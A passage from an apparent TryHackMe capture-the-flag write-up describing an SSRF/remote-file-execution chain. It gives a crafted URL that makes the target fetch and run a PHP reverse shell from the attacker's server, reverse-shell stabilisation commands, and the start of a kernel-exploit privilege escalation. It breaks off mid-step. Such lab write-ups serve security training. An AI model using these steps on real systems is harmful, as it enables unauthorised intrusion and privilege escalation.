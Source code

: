 The exploit consist on the presence of two debilities that conforms a vulnerability; a SSRF and a Remote File Execution. This is that exists a directory that can download a file from a server and then, if the file is PHP code it gets execute too. Thus, we open a http server with python over the directory where is stored the php file in our local machine:

<div style="text-align:center">
	<img src="{{ 'assets/img/THM/Pasted image 20221012165239.png' | relative_url }}" text-align="center"/>
</div>

And then we employ the following URL in the browser:

```url
http://<IP>/45kra24zxs28v3yd/administrator/alerts/alertConfigField.php?urlConfig=http://<LocalIP>/php-reverse-shell.php
```

This will provoke that the server perform a download of a php file from our server and then, gets the php file execute triggering a reverse shell call.

<div style="text-align:center">
	<img src="{{ 'assets/img/THM/Pasted image 20221012170848.png' | relative_url }}" text-align="center"/>
</div>

- *Elevating Privileges*: Once there, we can use a kernel-exploit.

First, we stabilize the netcat shell with the following commands:

```bash
python -c 'import pty;pty.spawn("/bin/bash")'
export TERM=xterm
```

Then, we press Ctrl+Z and we will be back in our local machine and then press:

```bash
stty raw -echo; fg
```

That will bring us back the connection with a totally stablish shell.

Then, we use the command: *uname -r* to know the version of the kernel:

<div style="text-align:center">
	<img src="{{ 'assets/img/THM/Pasted image 20221012175100.png' | relative_url }}" text-align="center"/>
</div>

And search in google for a [exploit](https://github.com/kkamagui/linux-kernel-exploits). Then we download it in our local machine and go to the directory which name match the version of the kernel an init a python http server:

<div style="text-align:center">
	<img src="{{ 'assets/img/THM/Pasted image 20221012175244.png' | relative_url }}" text-align="center"/>
</div>

Then in the victim machine we go to the /tmp directory and download from our local machine the compile script and the source code of the vulnerability:
